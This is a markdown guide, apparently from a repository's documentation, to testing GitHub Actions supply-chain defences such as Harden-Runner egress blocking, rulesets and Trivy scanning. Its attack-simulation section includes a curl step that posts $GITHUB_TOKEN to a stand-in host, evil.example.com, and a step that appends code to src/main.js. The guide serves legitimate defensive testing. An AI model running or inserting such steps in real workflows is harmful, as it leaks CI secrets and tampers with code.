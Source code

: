 # 30 – Verification & Testing

## A. Test Harden-Runner Protection

### Create Test Repository
1. Create a new repository or use existing one
2. Add the supply chain security workflow
3. Create a test branch and pull request

### Verify Egress Blocking
Check the workflow logs for:
```
🔒 Testing egress blocking...
Testing blocked endpoint (1.1.1.1)...
✅ Egress blocking verified: 1.1.1.1 properly blocked
```

If you see:
```
❌ SECURITY RISK: Egress not properly blocked!
```
This indicates network controls need adjustment.

### Check StepSecurity Dashboard
1. Visit https://app.stepsecurity.io/
2. Find your repository and workflow run
3. Review "Network" tab for detected connections
4. Check "Recommendations" for security insights

## B. Repository Ruleset Verification

### Test Status Check Enforcement
1. Create PR without security workflow
2. Verify merge is blocked with message: "Required status check 'Supply Chain Security Enforcement' is expected"
3. Add security workflow to PR
4. Verify checks pass and merge is allowed

### Test Rule Inheritance
For enterprise setups:
1. Create new repository in organization
2. Verify enterprise rulesets automatically apply
3. Check that security requirements are inherited
4. Test bypass controls (if configured)

## C. Vulnerability Detection Testing

### Trivy Scanner Verification
Add a test file with known vulnerabilities:
```javascript
// package.json - add vulnerable dependency
"dependencies": {
  "lodash": "4.17.15"  // Known vulnerable version
}
```

Expected result: Workflow fails with HIGH/CRITICAL vulnerability detected

### Dependency Confusion Testing
For Node.js projects, test the package hygiene:
```bash
# This should be caught by the workflow
npm install @malicious/package --dry-run
```

## D. Multi-Organization Testing

### Enterprise Ruleset Validation
1. **Test across organizations**: Verify rulesets apply to all orgs
2. **Exception testing**: Confirm excluded repositories are not affected
3. **Property-based rules**: Test conditional enforcement based on repository properties

### Template Repository Testing
1. Create new repository from template
2. Verify security workflows are included
3. Test workflow execution and compliance

## E. Attack Simulation

### Simulated Exfiltration Attempt
Create a test workflow with intentional violations:
```yaml
# ⚠️ This should be blocked by Harden-Runner
- name: Simulated Attack
  run: |
    echo "Attempting to exfiltrate data..."
    curl -X POST https://evil.example.com/exfil -d "token=$GITHUB_TOKEN" || echo "Blocked by Harden-Runner ✅"
```

Expected: Harden-Runner blocks the connection and alerts

### File Tampering Detection
```yaml
- name: Simulated Tampering
  run: |
    echo "Attempting file modification..."
    echo "malicious code" >> src/main.js
    # This should be detected by file integrity monitoring
```

## F. Performance Impact Testing

### Workflow Duration Comparison
Measure impact of security controls:
- **Baseline**: Workflow without Harden-Runner
- **With security**: Workflow with full security stack
- **Acceptable overhead**: < 30 seconds additional runtime

### Resource Usage
Monitor runner resource consumption:
- **CPU**: Security monitoring overhead
- **Memory**: Harden-Runner agent usage
- **Network**: Allowlist verification

## G. Incident Response Testing

### Security Alert Response
1. Trigger security alert (blocked connection)
2. Verify alert reaches security team
3. Test incident response procedures
4. Document response times and effectiveness

### False Positive Handling
1. Identify legitimate connections blocked by allowlist
2. Test allowlist update process
3. Verify updated rules take effect
4. Measure time to resolution

## H. Compliance Verification

### Audit Trail Review
- **Workflow logs**: Security check execution
- **StepSecurity dashboard**: Detailed security events
- **GitHub audit log**: Ruleset configuration changes
- **Repository activity**: Security-related commits

### Documentation Verification
Ensure all security controls are:
- **Documented**: Clear setup and operation procedures
- **Versioned**: Configuration stored in version control
- **Tested**: Regular verification of effectiveness
- **Monitored**: Continuous security monitoring active